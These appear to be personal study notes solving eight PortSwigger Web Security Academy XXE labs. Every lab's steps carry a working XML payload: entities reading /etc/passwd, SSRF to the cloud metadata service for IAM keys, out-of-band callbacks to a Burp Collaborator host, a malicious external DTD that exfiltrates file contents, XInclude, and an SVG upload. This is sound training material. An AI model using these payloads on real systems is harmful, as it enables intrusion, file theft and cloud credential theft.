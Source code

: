 ## Table of Contents

- [[#Exploiting XXE using external entities to retrieve files]]
- [[#Exploiting XXE to perform SSRF attacks]]
- [[#Blind XXE with out-of-band interaction]]
- [[#Blind XXE with out-of-band interaction via XML parameter entities]]
- [[#Exploiting blind XXE to exfiltrate data using a malicious external DTD]]
- [[#Exploiting blind XXE to retrieve data via error messages]]
- [[#Exploiting XInclude to retrieve files]]
- [[#Exploiting XXE via image file upload]]

## Exploiting XXE using external entities to retrieve files
Reference: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

```ad-done
title: Solution
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
~~~
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
~~~
3. Replace the ``productId`` number with a reference to the external entity: ``&xxe;``. The response should contain "Invalid product ID:" followed by the contents of the ``/etc/passwd`` file.
```

## Exploiting XXE to perform SSRF attacks
Reference: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

```ad-done
title: Solution
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
~~~
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
~~~
3. Replace the ``productId`` number with a reference to the external entity: ``&xxe;``. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
4. Iteratively update the URL in the DTD to explore the API until you reach ``/latest/meta-data/iam/security-credentials/admin``. This should return JSON containing the ``SecretAccessKey``.
```

## Blind XXE with out-of-band interaction
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

```ad-done
title: Solution
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:
~~~
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>
~~~
5. Replace the ``productId`` number with a reference to the external entity:
~~~
&xxe;
~~~
6. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
```

## Blind XXE with out-of-band interaction via XML parameter entities
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities

```ad-done
title: Solution
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:
~~~
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
~~~
5. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
```

## Exploiting blind XXE to exfiltrate data using a malicious external DTD
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration

```ad-hint
title: Quick Solution
In this lab a **malicious** DTD must be crafted and hosted on the exploit server and the **check stock** request must be tampered by adding a XML parameter entity. Payload in the next paragraph.
```

```ad-done
title: Solution
1. Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3. Place the Burp Collaborator payload into a malicious DTD file:
~~~xmlc
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
~~~
4. Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
5. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
6. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
~~~
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
~~~
7. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
8. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the ``/etc/hostname`` file.
```

## Exploiting blind XXE to retrieve data via error messages
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages

```ad-done
title: Solution
1. Click "Go to exploit server" and save the following malicious DTD file on your server:
~~~
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
~~~
When imported, this page will read the contents of ``/etc/passwd`` into the ``file`` entity, and then try to use that entity in a file path.
1. Click "View exploit" and take a note of the URL for your malicious DTD.
2. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
3. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
~~~
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
~~~
You should see an error message containing the contents of the ``/etc/passwd`` file.
```

## Exploiting XInclude to retrieve files
Reference: https://portswigger.net/web-security/xxe/lab-xinclude-attack

```ad-done
title: Solution
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Set the value of the ``productId`` parameter to:
~~~
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
~~~
```

## Exploiting XXE via image file upload
Reference: https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

```ad-done
title: Solution
1. Create a local SVG image with the following content:
~~~xml
<?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
        <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
~~~
2. Post a comment on a blog post, and upload this image as an avatar.
3. When you view your comment, you should see the contents of the ``/etc/hostname`` file in your image. Use the "Submit solution" button to submit the value of the server hostname.
```
